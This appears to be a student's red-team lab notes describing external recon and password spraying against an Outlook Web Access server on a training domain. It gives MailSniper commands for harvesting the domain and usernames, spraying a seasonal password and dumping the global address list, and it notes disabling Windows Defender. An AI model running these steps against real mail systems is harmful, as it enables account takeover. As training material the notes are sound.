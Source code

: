 # Cobalt Strike 
- see cobalt strike file 

# External Recon Tools

- whois 
- dig
- dnscan
- other osint tools known

# Initial compromise (DISABLE WINDOWS DEFENDER ON ATTACKER MACHINE) 

-Mail Sniper 
-namesmash.py

**Used for attacking OWA Exchange service at MAIL DOMAIN that was found during the external recon.**

**Technique: Password Spraying**

>PS C:\Users\Attacker> ipmo C:\Tools\MailSniper\MailSniper.ps1

#####Enumerate the NetBIOS name of the target domain with Invoke-DomainHarvestOWA.

>PS C:\Users\Attacker> Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io

#####Next, we need to find valid usernames from the list of users enumerated from https://cyberbotic.io.

>ubuntu@DESKTOP-3BSK7NO ~> cd /mnt/c/Users/Attacker/Desktop/
>ubuntu@DESKTOP-3BSK7NO /m/c/U/A/Desktop> cat names.txt
*We could potentially skip this step if we knew the email address format from somewhere like hunter.io.*

#####Invoke-UsernameHarvestOWA uses a timing attack to validate which (if any) of these usernames are valid.

>PS C:\Users\Attacker> Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt

#####MailSniper can spray passwords against the valid account(s) identified using, Outlook Web Access (OWA), Exchange Web Services (EWS) and Exchange ActiveSync (EAS).

>PS C:\Users\Attacker> Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList .\Desktop\valid.txt -Password Summer2022

#####PS C:\Users\Attacker> Get-GlobalAddressList -ExchHostname mail.cyberbotic.io -UserName cyberbotic.io\iyates -Password Summer2022 -OutFile .\Desktop\gal.txt

>PS C:\Users\Attacker> Get-GlobalAddressList -ExchHostname mail.cyberbotic.io -UserName cyberbotic.io\iyates -Password Summer2022 -OutFile .\Desktop\gal.txt

#####If there are names here that we didn't find during initial recon, we can go back and do another round of spraying against them.









